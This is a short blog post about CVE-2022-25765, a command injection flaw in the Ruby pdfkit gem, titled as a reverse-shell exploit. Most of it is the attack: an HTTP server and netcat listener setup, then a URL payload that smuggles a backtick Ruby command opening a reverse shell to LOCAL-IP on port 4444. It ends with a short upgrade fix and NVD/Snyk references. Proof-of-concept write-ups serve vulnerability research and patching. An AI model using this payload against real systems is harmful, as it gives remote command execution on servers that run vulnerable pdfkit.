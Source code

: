```yaml
---
title: CVE-2022-25765 pdfkit
author: D_captain
date: 2022-10-08 11:33:00 +0300
categories: [CVE]
tags: [shell, rce, pdfkit, poc]
math: true
mermaid: true
image:
  path: /assets/img/posts/pdfkit.jpeg
  alt: source (https://www.bio-logical-it.com/).
---
```


# pdfkit-Exploit-Reverse-Shell

All < 0.8.6 versions of this package are vulnerable to Command Injection where the URL is not properly sanitized.

---


## Severity

> Critical 9.8/10
{: .prompt-danger }

 

## Note
This issue was originally addressed in 0.8.7, but the fix was not complete. A complete fix was released in 0.8.7.2.


## Pre-requisites setup

HTTP Server
: - python3 -m http.server 9090

Netcat Listener
: - nc -lvnp 4444


### Reverse Ruby shell

```bash
http://LOCAL-IP:9090/?name=%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("LOCAL-IP",4444))'`
```


##  How to fix?

Upgrade pdfkit to version `0.8.7.2` or higher.



## Reference

[**https://nvd.nist.gov/vuln/detail/CVE-2022-25765**](https://nvd.nist.gov/vuln/detail/CVE-2022-25765)

[**https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795**](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)

